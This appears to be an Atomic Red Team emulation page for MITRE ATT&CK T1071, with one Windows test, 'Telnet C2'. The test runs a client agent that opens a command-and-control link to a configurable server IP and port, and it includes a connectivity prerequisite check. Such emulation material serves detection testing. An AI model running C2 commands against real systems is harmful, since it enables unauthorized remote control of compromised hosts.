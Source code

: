 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

Adversaries may utilize many different protocols, including those used for web browsing, transferring files, electronic mail, DNS, or publishing/subscribing. For connections that occur internally within an enclave (such as those between a proxy or pivot node and other nodes), commonly used protocols are SMB, SSH, or RDP.(Citation: Mandiant APT29 Eye Spy Email Nov 22) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---telnet-c2)


<br/>

## Atomic Test #1 - Telnet C2
An adversary may establish Telnet communication from a compromised endpoint to a command and control (C2) server in order to carry out additional attacks on objectives.

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | 127.0.0.1|
| client_path | Client agent path | path | PathToAtomicsFolder&#92;T1071&#92;bin&#92;telnet_client.exe|
| server_port | C2 server port | integer | 23|


#### Attack Commands: Run with `powershell`! 


```powershell
#{client_path} #{server_ip} --port #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: A command and control (C2) server can be established by running PathToAtomicsFolder\T1071\bin\telnet_server.exe on a specified server with a specified IP that must be reachable by a client (telnet_client.exe)
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}
if ($connection.TcpTestSucceeded) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host "Setup C2 server manually"
```




<br/>

